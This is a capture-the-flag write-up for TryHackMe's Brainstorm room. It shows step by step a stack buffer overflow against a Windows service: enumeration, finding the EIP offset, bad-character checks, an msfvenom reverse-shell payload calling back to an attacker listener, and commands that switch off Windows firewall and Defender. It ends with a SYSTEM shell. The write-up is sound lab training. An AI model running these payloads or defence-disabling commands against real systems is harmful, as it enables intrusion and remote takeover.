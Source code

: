 # Brainstorm - TryHackMe - Writeup

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker:
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target:
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#target-enumeration)
1. [Binary exploration](#binary-exploration)
1. [Buffer overflow exploit](#buffer-overflow-exploit)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --script, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```
![mget](imgs/mget.png?raw=true)


These files seemed like they were key to this challenge and I decided to test them in a Windows environment.

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```
![tasklist](imgs/tasklist.png?raw=true)

```
netstat -ano | findstr 524
```
![netstat](imgs/netstat.png?raw=true)

Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```
![ncvm](imgs/ncvm.png?raw=true)

* Target
```
nc -nv 10.10.144.220 9999
```
![nctarget](imgs/nctarget.png?raw=true)


They are probably the same! Now it was time to test for some buffer overflow vulnerabilities.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:

![debuggereip](imgs/debuggereip.png?raw=true)

Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at approximately 4096 bytes (1000h):

![debuggeresp](imgs/debuggeresp.png?raw=true)

Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset.

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```
![regs](imgs/regs.png?raw=true)

The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```
![mona](imgs/mona.png?raw=true)

I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashes memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=lBBBBBBBB --after=badchar --exclude=00 --nops=2 -v
```
![badchars](imgs/badchars.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```
![monabadchars](imgs/monabadchars.png?raw=true)


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --after=shellcode --shellcode=reverse280 --nops=10 -v
```
![vmshell](imgs/vmshell.png?raw=true)


Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m write --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --after=shellcode --shellcode=reverse980 --nops=10 -v
```
![targetshell](imgs/targetshell.png?raw=true)

Bingo! Got a privileged user shell (user 'nt authority\system')!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

---

*Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this later.*


